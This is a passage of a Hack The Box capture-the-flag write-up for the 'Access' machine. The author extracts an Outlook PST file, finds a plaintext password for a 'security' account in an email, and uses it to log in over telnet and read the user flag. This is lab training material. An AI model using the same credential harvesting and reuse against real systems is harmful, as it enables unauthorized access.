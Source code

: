 We can read the PST file content with `readpst` and it'll create an mbox file:

```
root@darkisland:~/hackthebox/Machines/Access# readpst access.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.

root@darkisland:~/hackthebox/Machines/Access# ls -l
total 5820
-rw-r--r-- 1 root root    3112 Sep 30 18:36 'Access Control.mbox'
```

Looking in the mbox file we find an email with another set of credentials:

```
root@darkisland:~/hackthebox/Machines/Access# cat 'Access Control.mbox'
From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
[...]
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,

John
```

Found the following credentials:
 - `security` / `4Cc3ssC0ntr0ller`

### Getting a shell

Telnet is enabled on this box so we can use that last set of credentials and log in to the server:

```
root@darkisland:~/hackthebox/Machines/Access# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>type desktop\user.txt
ff1f3b<redacted>
```
